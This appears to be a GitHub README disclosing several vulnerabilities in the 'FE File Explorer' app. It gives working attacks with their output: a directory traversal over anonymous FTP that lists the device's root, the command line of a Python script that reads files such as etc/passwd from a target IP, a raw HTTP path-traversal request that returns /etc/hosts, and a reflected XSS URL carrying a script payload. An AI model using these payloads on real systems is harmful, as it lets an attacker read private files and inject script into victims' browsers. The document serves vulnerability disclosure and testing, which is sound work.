 # FE-File-Explorer<br/>
FE File Explorer Multi Vulnerabilities<br/>
<br/>
### Directory traversal:<br/>
<br/>
connect to ftp as anynomous <br/>
<br/>
ftp> cd /../../../../../../../../../../../../../../../../ <br/>
250 OK. Current directory is /../../../../../../../../../../../../../../../../<br/>
ftp> ls<br/>
200 PORT command successful.<br/>
150 Accepted data connection<br/>
total 10<br/>
drwxr-xr-x     0 root wheel        256 Jan 01 1970 usr<br/>
drwxr-xr-x     0 root wheel        128 Jan 01 1970 bin<br/>
drwxr-xr-x     0 root wheel        576 Jan 01 1970 sbin<br/>
drwxr-xr-x     0 root wheel        160 Jan 01 1970 System<br/>
drwxr-xr-x     0 root wheel        672 Jan 01 1970 Library<br/>
drwxr-xr-x     0 root wheel        224 Jan 01 1970 private<br/>
drwxr-xr-x     0 root wheel       1132 Jan 01 1970 dev<br/>
drwxr-xr-x     0 root admin       3968 Jan 01 1970 Applications<br/>
drwxr-xr-x     0 root admin         64 Jan 01 1970 Developer<br/>
drwxr-xr-x     0 root admin         64 Jan 01 1970 cores<br/>
<br/>

## Local File Inclusion ( FTP ) : <br/>

python3 'FE File Explorer.py' --target 192.168.1.178 --file etc/passwd<br/>
<br/>
FE File Explorer Local File inclusion<br/>
<br/>
optional arguments:<br/>
  -h, --help       show this help message and exit<br/>
  --target TARGET  Target IP<br/>
  --file FILE      File To Open eg: etc/passwd<br/>


<br/><br/>


### Local File Inclusion (web) : <br/>
<br/>
GET /../../../../../../../../../../../../../../../../etc/hosts HTTP/1.1<br/>
Host: 192.168.1.178:8080<br/>
Upgrade-Insecure-Requests: 1<br/>
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5376e Safari/8536.25<br/>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br/>
Accept-Encoding: gzip, deflate<br/>
Accept-Language: en-US,en;q=0.9<br/>
Connection: close<br/>
<br/>
---<br/>
HTTP/1.1 200 OK<br/>
Connection: Close<br/>
Server: GCDWebUploader<br/>
Content-Type: application/octet-stream<br/>
Last-Modified: Wed, 13 Jul 2022 10:35:46 GMT<br/>
Date: Tue, 06 Sep 2022 21:40:40 GMT<br/>
Content-Length: 213<br/>
Cache-Control: max-age=3600, public<br/>
Etag: 1152921500312311378/1657708546/0<br/>
<br/>
##<br/>
 Host Database<br/>
#<br/>
.# localhost is used to configure the loopback interface<br/>
.# when the system is booting.  Do not change this entry.<br/>
##<br/>
127.0.0.1	localhost<br/>
255.255.255.255	broadcasthost<br/>
::1             localhost<br/>
<br/><br/><br/>
### Reflected xss: <br/>
<br/>
http://192.168.1.178:8080/download?path=%3Cscript%3Ealert(%27rose%20taken%27);%3C/script%3E<br/>
